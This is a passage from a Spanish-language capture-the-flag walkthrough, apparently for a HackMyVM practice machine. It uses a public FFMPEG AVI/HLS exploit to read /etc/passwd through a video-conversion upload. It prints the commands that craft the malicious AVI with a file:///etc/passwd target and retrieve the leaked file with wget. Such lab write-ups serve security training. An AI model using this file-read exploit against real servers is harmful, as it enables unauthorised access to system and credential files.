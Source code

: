 Encontramos una pagina de login en /data/login.php sin embargo no tenemos credenciales para ingresar.

## Buscando vulnerabilidad FFMPEG

Buscando como funciona el cambio de avi a mp4 nos damos cuenta que usa una tecnologia llamada ``FFMPEG`` 
Ahora procedemos a buscar alguna vulnerabilidad y encontramos un github que nos permite leer archivos del sistema https://github.com/neex/ffmpeg-avi-m3u-xbin

En el codigo hay dos funciones principales: make_playlist_avi() y gen_xbin_packet_playlist(). La primera se encarga de crear la lista de reproducción para un archivo AVI. La función toma como entrada una cadena de bytes que representa el contenido del archivo de video, y dos argumentos opcionales: fake_packets y fake_packet_len. fake_packets especifica el número de paquetes falsos que se agregarán al archivo AVI, y fake_packet_len especifica la longitud de cada paquete falso. La función devuelve una cadena de bytes que representa el archivo AVI completo con la lista de reproducción incrustada.

Me copie el codigo a un archivo llamado gen.py y siguiendo el github creo mi archivo.avi

## Explotacion FFMPEG

```bash
❯ chmod +x gen.py
❯ ./gen.py file:///etc/passwd archivo.avi
❯ ls ar* 
archivo.avi
```

Subimos el archivo y ahora descargamos el link que nos proporciona
``http://movie.hmv/converted_videos/archivo.mp4``

```bash
❯ wget http://movie.hmv/converted_videos/archivo.mp4
--2023-03-13 20:41:32--  http://movie.hmv/converted_videos/archivo.mp4
Resolving movie.hmv (movie.hmv)... 10.0.2.27
Connecting to movie.hmv (movie.hmv)|10.0.2.27|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 737335 (720K) [video/mp4]
Saving to: ‘archivo.mp4’
archivo.mp4  100%[=========================================>] 720.05K  --.-KB/s    in 0.002s  
2023-03-13 20:41:32 (380 MB/s) - ‘archivo.mp4’ saved [737335/737335]
                            
❯ ls a*
archivo.mp4
```

Abriendo el archivo.mp4 esta el passwd como lo habiamos visto, ahora creo que tarantino puede ser un posible usuario 
